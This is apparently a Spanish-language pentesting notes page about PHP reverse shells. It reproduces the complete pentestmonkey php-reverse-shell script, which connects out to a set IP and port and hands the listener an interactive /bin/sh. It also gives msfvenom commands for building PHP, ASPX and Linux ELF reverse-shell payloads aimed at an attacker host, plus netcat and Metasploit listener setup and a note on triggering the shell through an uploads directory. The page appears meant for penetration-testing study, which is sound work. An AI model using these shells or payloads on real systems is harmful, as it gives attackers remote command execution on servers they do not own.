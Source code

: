 # PHP Reverse Shell



* Payloads All The Things: REVERSE SHELL

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

* PentestMonkey: Shells y más
* PHP-reverse-shell (Pentestmonkey github)

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

*   Script php reverse shell de pentestmonkey:

    {% code overflow="wrap" %}
    ```php
    <?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See <http://pentestmonkey.net/tools/php-reverse-shell> if you get stuck.

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    //
    // Daemonise ourself if possible to avoid zombies later
    //

    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
    	// Fork and have the parent process exit
    	$pid = pcntl_fork();
    	
    	if ($pid == -1) {
    		printit("ERROR: Can't fork");
    		exit(1);
    	}
    	
    	if ($pid) {
    		exit(0);  // Parent exits
    	}

    	// Make the current process a session leader
    	// Will only succeed if we forked
    	if (posix_setsid() == -1) {
    		printit("Error: Can't setsid()");
    		exit(1);
    	}

    	$daemon = 1;
    } else {
    	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    // Change to a safe directory
    chdir("/");

    // Remove any umask we inherited
    umask(0);

    //
    // Do the reverse shell...
    //

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
    	printit("$errstr ($errno)");
    	exit(1);
    }

    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
    	printit("ERROR: Can't spawn shell");
    	exit(1);
    }

    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
    	// Check for end of TCP connection
    	if (feof($sock)) {
    		printit("ERROR: Shell connection terminated");
    		break;
    	}

    	// Check for end of STDOUT
    	if (feof($pipes[1])) {
    		printit("ERROR: Shell process terminated");
    		break;
    	}

    	// Wait until a command is end down $sock, or some
    	// command output is available on STDOUT or STDERR
    	$read_a = array($sock, $pipes[1], $pipes[2]);
    	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    	// If we can read from the TCP socket, send
    	// data to process's STDIN
    	if (in_array($sock, $read_a)) {
    		if ($debug) printit("SOCK READ");
    		$input = fread($sock, $chunk_size);
    		if ($debug) printit("SOCK: $input");
    		fwrite($pipes[0], $input);
    	}

    	// If we can read from the process's STDOUT
    	// send data down tcp connection
    	if (in_array($pipes[1], $read_a)) {
    		if ($debug) printit("STDOUT READ");
    		$input = fread($pipes[1], $chunk_size);
    		if ($debug) printit("STDOUT: $input");
    		fwrite($sock, $input);
    	}

    	// If we can read from the process's STDERR
    	// send data down tcp connection
    	if (in_array($pipes[2], $read_a)) {
    		if ($debug) printit("STDERR READ");
    		$input = fread($pipes[2], $chunk_size);
    		if ($debug) printit("STDERR: $input");
    		fwrite($sock, $input);
    	}
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
    	if (!$daemon) {
    		print "$string\\n";
    	}
    }

    ?>
    ```
    {% endcode %}

#### METERPRETER PHP REVERSE SHELL ejemplos

* MSFVENOM: creación de exploits, malware con reverse shell en ejcutables, etc.

{% code overflow="wrap" %}
```bash
sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw > shell.php     #PHP reverse tcp payload meterpreter

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f aspx > shell.aspx     #ASPX reverse tcp para windows

sudo msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf --platform=linux -o payload     #Crear malware como reverse shell ejecutable elf para linux.

#Flags:
-p: payload con su ruta
-a: architecture (x86, x64)
-f: tipo de archivo (aspx, raw, elf, etc.)
-i: iteraciones
-e: encoding, Codificación
--platform= : plataforma, ej, linux
-o: output
> : enviar lo creado como salida (output) a un nuevo archivo.
```
{% endcode %}



* Listeners (oyentes)

```bash
# Netcat
nc -lnvp 4444

# Metasploit multi handler: útil para atrapar algunos shells de msfvenom
use exploit/multi/handler
#configurarlo, por ej para PHP meterpreter
set payload php/meterpreter/reverse_tcp
set LHOST <attacker_IP>
set LPORT 4444    #como en el exploit php
```

* Al ejecutar el exploit php por ej. cargado en directorio de uploads, la conexión inversa con payload meterpreter es atrapada por el multiahndler que espera ese tipo de payload, logrando una shell reverse meterpreter.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
